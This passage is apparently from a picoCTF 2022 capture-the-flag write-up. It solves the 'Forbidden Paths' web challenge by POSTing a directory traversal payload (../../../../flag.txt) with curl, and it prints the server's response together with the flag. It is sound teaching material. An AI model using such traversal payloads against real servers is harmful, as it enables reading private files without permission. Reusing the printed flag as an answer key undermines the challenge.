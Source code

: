![Web - Forbidden Paths](/images/ctf/picoCTF2022/picoCTF2022_17.png)
_Web - Forbidden Paths_

Given the location where the site is hosted : /usr/share/nginx/html/  and the file where the flag is : /flag.txt, i tried to access it with the payload ../../../../flag.txt

```console
┌──(kali㉿kali)-[~/…/ctf/picoCTF/web/Forbidden Paths 200]
└─$ curl -d 'filename=../../../../flag.txt' -X POST http://saturn.picoctf.net:52472/read.php
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="style.css">
    <title>Web eReader</title>
  </head>
  <body>
    
    picoCTF{7h3_p47h_70_5ucc355_32e3a320}<br>  </body>
</html>
```
{: .nolineno }

Flag : picoCTF{7h3_p47h_70_5ucc355_32e3a320}

## Web - Power Cookie
SCORE: 200
